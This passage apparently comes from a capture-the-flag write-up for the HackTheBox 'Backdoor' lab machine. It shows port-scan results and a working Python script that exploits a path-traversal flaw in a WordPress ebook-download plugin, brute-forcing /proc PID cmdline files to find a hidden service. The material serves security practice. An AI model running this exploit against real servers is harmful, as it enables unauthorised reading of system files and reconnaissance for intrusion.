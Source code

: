 ```bash
sudo nmap -p- 10.10.11.125 -v --min-rate=10000
#new port found
Discovered open port 1337/tcp on 10.10.11.125
<SNIP>
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
1337/tcp  open     waste
11844/tcp filtered unknown
25580/tcp filtered unknown
30512/tcp filtered unknown
```

We can also do the same with rustscan:

```bash
rustscan -a 10.10.11.125

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
1337/tcp open  waste   syn-ack ttl 63
```

![image.png]({{ site.baseurl }}/assets/backdoor/image%204.png)

Attempting to interact with the service with nc did not work.

We know that there should be some command on the backend that started the service on port 1337, therefore there should be a command line execution string containing that. 

/proc/$PID/cmdline shows exactly what command was used to execute a process, therefore, we can use a script that bruteforces PID, to find the one containing port 1337. 

```bash
import requests
from concurrent.futures import ThreadPoolExecutor
from tqdm import tqdm
import logging

# Configure logging
logging.basicConfig(filename='pid_bruteforce.log', level=logging.INFO, 
                    format='%(asctime)s - PID %(pid)d: %(message)s')

# Configuration
BASE_URL = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
PID_RANGE = range(1, 1000)  # Adjust as needed
TIMEOUT = 5  # Seconds
MAX_WORKERS = 20  # Number of concurrent threads

def fetch_pid_cmdline(pid):
    """Fetch and parse the cmdline for a given PID."""
    url = f"{BASE_URL}{pid}/cmdline"
    try:
        response = requests.get(url, timeout=TIMEOUT)
        if response.status_code == 200:
            # Clean the response: remove JavaScript and null bytes
            cmdline = (response.text.replace(f'/proc/{pid}/cmdline', '')
                             .replace('<script>window.close()</script>', '')
                             .replace('\x00', ' ').strip())
            if cmdline and len(cmdline) > 1:  # Only return non-empty results
                return pid, cmdline
    except (requests.RequestException, ValueError) as e:
        logging.error(f"Error fetching PID {pid}: {str(e)}")
    return pid, None
```